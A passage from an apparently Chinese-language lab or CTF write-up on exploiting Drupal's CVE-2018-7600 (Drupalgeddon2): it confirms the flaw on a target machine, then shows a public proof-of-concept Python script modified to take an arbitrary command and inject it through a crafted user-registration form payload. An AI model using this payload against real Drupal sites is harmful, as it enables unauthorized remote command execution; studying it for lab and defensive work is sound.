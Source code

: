 下面发现关键代码，若存在会输出一个文件

![](./pic-2/15.jpg)

执行脚本进行检测靶机，发现输出检测了，访问这个文件，确定有漏洞

![](./pic-2/16.jpg)

# 漏洞利用

既然如此，可以修改这个脚本去执行一些命令。`ok`，现在修改`payload`，在原基础上，只改动了一点，接收命令

```python
#!/usr/bin/env
import sys
import requests
import json

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')
command = input('Enter command (example: id):') 

proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': command}
```